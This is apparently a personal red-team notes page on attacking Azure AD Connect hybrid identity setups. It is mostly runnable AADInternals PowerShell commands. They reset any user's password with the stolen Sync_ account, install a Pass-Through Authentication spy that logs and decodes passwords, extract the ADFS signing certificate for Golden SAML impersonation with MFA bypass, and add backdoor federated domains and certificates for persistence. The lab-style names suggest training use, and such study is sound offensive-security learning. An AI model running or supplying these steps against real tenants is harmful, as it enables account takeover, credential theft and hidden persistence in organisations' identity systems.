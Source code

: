 ```yaml
---
title: Azure AD Connect
---
```


> Under construction 🚧

[[notes/azure/index]] AD Connect is used to implement hybrid identities which allows on-prem users to access Azure and AAD users to access on-prem resources.

# Password Hash Sync (PHS)

An on-prem agent pushes AD password hashes to AAD and receives new password hashes from AAD and DCSyncs them to AD.
This is the simplest and most popular method and required for features like Identity Protection and AAD Domain Services.

The on-prem agent uses two service accounts: A `MSOL_*` AD user with DCSync rights and a `Sync_*` AAD user that can reset passwords of any AAD user.
Clear text credentials of both accounts can be extracted from the database used by AAD Connect.

Password expiry and account expiry are not synced to Azure AD by default.
A user whose on-prem password is expired can still access Azure resources.

Authenticate with the `Sync_*` user.

~~~ powershell
$passwd = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ('Sync_DEFENGADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com', $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
~~~

List global admins.

~~~ powershell
Get-AADIntGlobalAdmins
~~~

Get the *ImmutableId* of a AD user synced to Azure AD.

~~~ powershell
Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
~~~

Reset the password of synced user in Azure.
The on-prem password remains unchanged.

~~~ powershell
Set-AADIntUserPassword -SourceAnchor $immutableid - Password 'SuperSecretpass#12321' -Verbose
~~~

Get the *objectID* of a cloud-only user (a user that is not synced from AD).

~~~ powershell
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
~~~

Reset the password of the AAD user.

~~~ powershell
Set-AADIntUserPassword -CloudAnchor "User_${object_id}" -Password 'SuperSecretpass#12321' -Verbose 
~~~

References:

- [Azure Attack Paths - AAD Connect Application takeover](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#aad-connect---application-takeover), add credentials to privileged application

# Pass-Through Authentication (PTA)

The on-prem agent opens an outbound connection to Azure and receives credentials from Azure for validation against AD. 

If the on-prem server with the authentication agent is compromised, it is possible to verify any credentials as valid.

~~~ powershell
Install-AADIntPTASpy
~~~

The backdoor also logs all credentials it receives.

~~~ powershell
Get-AADIntPTASpyLog -DecodePasswords
~~~

As global admin a PTA agent can be added as persistence technique.

# Federation

Identity federation creates a trust between ADFS and Azure AD.
The authentication occurs on-prem.
Azure users are identified by their *ImmutableID* which is stored on-prem in the *ms-DS-ConsistencyGuid* LDAP attribute.

ADFS signs SAML responses with a token-signing certificate.
If a ADFS server is compromised this certificate can be extracted and used to authenticate to AAD as any user synced from on-prem (Golden SAML attack).

Get the *ImmutableID* of the target user as unprivileged AD user.

~~~ powershell
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
~~~

As admin on the ADFS server extract the token signing certificate.

~~~ powershell
Get-AdfsProperties | select identifier
Export-AADIntADFSSigningCertificate
~~~

Access cloud apps as the user whose *ImmutableID* is specified.

~~~ powershell
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
~~~

Persistence trough trusted domain:
As global admin add a new domain, set its authentication type to federated, configure the domain to trust a specific certificate and issuer.

~~~ powershell
ConvertTo-AADIntBackdoor -DomainName cyberranges.io
~~~

Get the *ImmutableID* for the user you want to impersonate.

~~~ powershell
Get-MsolUser | select userPrincipalName,ImmutableID
~~~

Access any cloud app as that user.

~~~ powershell
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer 'http://any.sts/B231A11F' -UseBuiltInCertificate -ByPassMFA $true
~~~

Persistence trough additional signing certificate.

~~~ powershell
New-AADIntADFSSelfSignedCertificates
Update-AADIntADFSFederationSettings -Domain cyberranges.io
~~~
